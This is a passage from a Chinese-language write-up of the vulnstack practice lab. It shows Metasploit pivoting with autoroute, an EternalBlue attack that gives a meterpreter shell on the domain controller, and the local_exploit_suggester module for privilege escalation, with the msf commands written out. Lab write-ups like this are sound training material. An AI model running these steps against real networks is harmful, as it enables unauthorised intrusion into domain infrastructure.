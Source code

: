 

## 永恒之蓝打域控

开启路由转发：`run autoroute -s 10.10.10.0/24`，目标是让msf能够访问内网的其他主机

> 此命令使用autoroute脚本来添加一个静态路由，换句话说，这个命令将你当前的 Meterpreter 会话作为一个路由器，可以让你访问到该子网内的其他主机

![image-20230503231440843](vulnstack靶场系列二/image-20230503231440843.png)



尝试使用永恒之蓝exp对域控进行攻击，成功返回域控的meterpreter

![image-20230503231725683](vulnstack靶场系列二/image-20230503231725683.png)



## 永恒之蓝提权Web主机

使用MSF查找可能的提权漏洞，使用`post/multi/recon/local_exploit_suggester`模块，Metasploit会建议可能适用于该系统的本地提权漏洞，然后使用run命令执行此模块。

```
meterpreter > background
msf > use post/multi/recon/local_exploit_suggester
msf post(multi/recon/local_exploit_suggester) > set SESSION [your session id]
msf post(multi/recon/local_exploit_suggester) > run
```
